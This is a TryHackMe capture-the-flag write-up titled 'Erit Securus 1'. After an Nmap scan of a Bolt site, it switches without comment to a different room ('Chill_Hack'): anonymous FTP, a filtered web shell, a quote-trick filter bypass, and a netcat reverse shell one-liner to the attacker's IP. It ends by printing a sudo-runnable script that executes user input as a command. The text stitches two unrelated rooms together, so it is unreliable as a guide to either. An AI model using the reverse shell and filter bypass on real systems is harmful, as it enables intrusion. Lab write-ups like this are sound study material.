


# 🏴 TryHackMe - Erit Securus 1

> ⚠️ Disclaimer: This write-up does **not** include flags or exact answers, only methodology and learning process, in respect of TryHackMe rules.

---

## 🔍 Recon
>ip addreess 10.10.247.233

****

### Nmap Scan
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Erit Securus 1]
└─$ nmap -sC -sV -oN Nmap/initial 10.10.6.252  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 09:51 EDT
Nmap scan report for 10.10.6.252
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b1:ac:a9:92:d3:2a:69:91:68:b4:6a:ac:45:43:fb:ed (DSA)
|   2048 3a:3f:9f:59:29:c8:20:d7:3a:c5:04:aa:82:36:68:3f (RSA)
|   256 f9:2f:bb:e3:ab:95:ee:9e:78:7c:91:18:7d:95:84:ab (ECDSA)
|_  256 49:0e:6f:cb:ec:6c:a5:97:67:cc:3c:31:ad:94:a4:54 (ED25519)
80/tcp open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-title: Graece donan, Latine voluptatem vocant. | Erit Securus 1
|_http-generator: Bolt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
>***Ports open 22 shh, 80 http***
***Webserver is buit on Bolt***


```bash  
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ ftp 10.10.132.2                    
Connected to 10.10.132.2.
220 (vsFTPd 3.0.5)
Name (10.10.132.2:robert): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||16016|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||41095|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |*********************************************************|    90      861.67 KiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (1.63 KiB/s)
ftp> 
```
>cat note.txt
```bash
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Chill_Hack]
└─$ cat note.txt                             
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
>Anurodh might be an user

### GoBuster Enuemeration 

>/secret looks interesting, let's see

>web-shell, nice, let's try with reverse shell if we can execute commands

>ls is not working, we have to go deeper
>reverse shell, we are in r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.197.1 4444 >/tmp/f, using " " to bypass the filter 


>the shell is non interactive, let's import python3 -c 'import pty;pty.spawn("/bin/bash")'


>Before starting my enumeration, First I want to know that if I can run any commands as sudo. Here, I find I can run a script named .helpline.sh as apaar.                                                                                           

```bash
www-data@ip-10-10-132-2:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-132-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-132-2:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

>cat .helpline.sh

```bash
www-data@ip-10-10-132-2:/home/apaar$ cat .helpline.sh
cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```